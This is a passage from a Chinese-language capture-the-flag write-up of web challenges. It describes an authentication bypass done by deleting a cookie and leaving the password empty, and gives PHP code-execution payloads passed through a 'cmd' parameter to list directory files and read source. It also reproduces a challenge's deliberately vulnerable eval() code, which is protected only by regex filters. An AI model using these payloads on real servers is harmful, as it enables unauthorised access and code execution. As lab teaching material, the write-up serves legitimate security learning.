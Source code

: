 我们把cookie给删除，然后密码为空就可绕过

![image-20230411135359434](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111353472.png)





### web12

查看源码，发现 `?cmd=`

![image-20230411135840705](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111358734.png)

推测是代码执行，

```php
print_r(scandir('.'));
或
print_r(glob('*'));
```

获得当前目录下的所有文件

![image-20230411140019904](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111400950.png)

然后查看源码即可：

```
highlight_file('903c00105c0141fd37ff47697e916e53616e33a72fb3774ab213b3e2a732f56f.php');

show_source();
```





### 红包题第二弹            

和上题一样，传参cmd得源码：

```php
<?php
        if(isset($_GET['cmd'])){
            $cmd=$_GET['cmd'];
            highlight_file(__FILE__);
            if(preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
            
                die("cerror");
            }
            if(preg_match("/\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",$cmd)){
                die("serror");
            }
            eval($cmd);
        
        }
    
     ?>
```
